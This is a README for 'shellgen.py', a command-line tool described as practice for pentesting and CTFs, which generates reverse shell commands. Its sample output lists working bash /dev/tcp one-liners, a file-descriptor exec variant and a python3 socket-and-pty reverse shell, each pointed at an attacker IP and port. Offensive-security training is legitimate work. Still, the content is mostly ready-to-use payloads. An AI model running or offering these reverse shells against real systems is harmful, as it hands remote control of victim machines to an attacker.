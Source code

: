 # Shellgen.py 

## The idea for this project is for some practice python, as well as to make a useful tool for pentesting / CTF's

## The tool is used to generate various types of reverse shell commands from the CLI.

## The usage is very simple

    usage: shellgen.py [-h] [-p <attacker port>] [-m method to use] <attacker ip>
    
    Command line reverse shell generator
    
    positional arguments:
      <attacker ip>       Attacker ip address to receive the connection back from victim machine
    
    optional arguments:
      -h, --help          show this help message and exit
      -p <attacker port>  Attacker port to listen on. Default = 1337
      -m method to use    A comma seperated list of reverse shell methods. Default is bash,python3,nc
 

## Samples 
- basic usage uses the three default methods, bash python3, and nc and default port l337

    python3 shellgen.py 127.0.0.1

    ['bash', 'python3', 'nc']
    
    bash: 
      bash -i >& /dev/tcp/127.0.0.1/1337 0>&1 
      0<&196;exec 196<>/dev/tcp/127.0.0.1/1337; sh <&196 >&196 2>&196 
      /bin/bash -l > /dev/tcp/127.0.0.1/1337 0<&1 2>&1
    
    python3: 
      export RHOST="127.0.0.1";export RPORT=1337;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'

- specifying a method and port
    
    python3 shellgen.py 127.0.0.1 -m bash -p 9001

    ['bash']

    bash: 
      bash -i >& /dev/tcp/127.0.0.1/9001 0>&1 
      0<&196;exec 196<>/dev/tcp/127.0.0.1/9001; sh <&196 >&196 2>&196 
      /bin/bash -l > /dev/tcp/127.0.0.1/9001 0<&1 2>&1
                                                           


## To do
- Add more methods for rev shells
- add more functionality like base64 or url encoding
- add option to save to file
